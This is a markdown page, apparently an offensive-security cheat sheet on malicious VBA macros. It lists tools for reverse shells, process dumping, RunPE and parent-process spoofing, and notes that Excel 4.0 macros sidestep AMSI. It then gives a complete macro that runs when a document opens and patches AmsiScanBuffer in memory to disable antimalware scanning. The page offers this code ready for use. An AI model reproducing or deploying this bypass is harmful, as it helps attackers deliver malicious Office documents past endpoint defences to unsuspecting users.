 
### VBA - Offensive Security Template

* Reverse Shell VBA - https://github.com/JohnWoodman/VBA-Macro-Reverse-Shell/blob/main/VBA-Reverse-Shell.vba
* Process Dumper - https://github.com/JohnWoodman/VBA-Macro-Dump-Process
* RunPE - https://github.com/itm4n/VBA-RunPE
* Spoof Parent - https://github.com/py7hagoras/OfficeMacro64
* AMSI Bypass - https://github.com/outflanknl/Scripts/blob/master/AMSIbypasses.vba
* amsiByPassWithRTLMoveMemory - https://gist.github.com/DanShaqFu/1c57c02660b2980d4816d14379c2c4f3
* VBA macro spawning a process with a spoofed parent - https://github.com/christophetd/spoofing-office-macro/blob/master/macro64.vba


### VBA - AMSI

> The Office VBA integration with AMSI is made up of three parts: (a) logging macro behavior, (b) triggering a scan on suspicious behavior, and (c) stopping a malicious macro upon detection. https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/


![](https://www.microsoft.com/security/blog/wp-content/uploads/2018/09/fig2-runtime-scanning-amsi-8-1024x482.png)

:warning: It appears that p-code based attacks where the VBA code is stomped will still be picked up by the AMSI engine (e.g. files manipulated by our tool EvilClippy).

The AMSI engine only hooks into VBA, we can bypass it by using Excel 4.0 Macro

* AMSI Trigger - https://github.com/synacktiv/AMSI-Bypass

```vb
Private Declare PtrSafe Function GetProcAddress Lib "kernel32" (ByVal hModule As LongPtr, ByVal lpProcName As String) As LongPtr
Private Declare PtrSafe Function LoadLibrary Lib "kernel32" Alias "LoadLibraryA" (ByVal lpLibFileName As String) As LongPtr
Private Declare PtrSafe Function VirtualProtect Lib "kernel32" (lpAddress As Any, ByVal dwSize As LongPtr, ByVal flNewProtect As Long, lpflOldProtect As Long) As Long
Private Declare PtrSafe Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (Destination As Any, Source As Any, ByVal Length As LongPtr)
 
Private Sub Document_Open()
    Dim AmsiDLL As LongPtr
    Dim AmsiScanBufferAddr As LongPtr
    Dim result As Long
    Dim MyByteArray(6) As Byte
    Dim ArrayPointer As LongPtr
 
    MyByteArray(0) = 184 ' 0xB8
    MyByteArray(1) = 87  ' 0x57
    MyByteArray(2) = 0   ' 0x00
    MyByteArray(3) = 7   ' 0x07
    MyByteArray(4) = 128 ' 0x80
    MyByteArray(5) = 195 ' 0xC3
 
    AmsiDLL = LoadLibrary("amsi.dll")
    AmsiScanBufferAddr = GetProcAddress(AmsiDLL, "AmsiScanBuffer")
    result = VirtualProtect(ByVal AmsiScanBufferAddr, 5, 64, 0)
    ArrayPointer = VarPtr(MyByteArray(0))
    CopyMemory ByVal AmsiScanBufferAddr, ByVal ArrayPointer, 6
     
End Sub
```
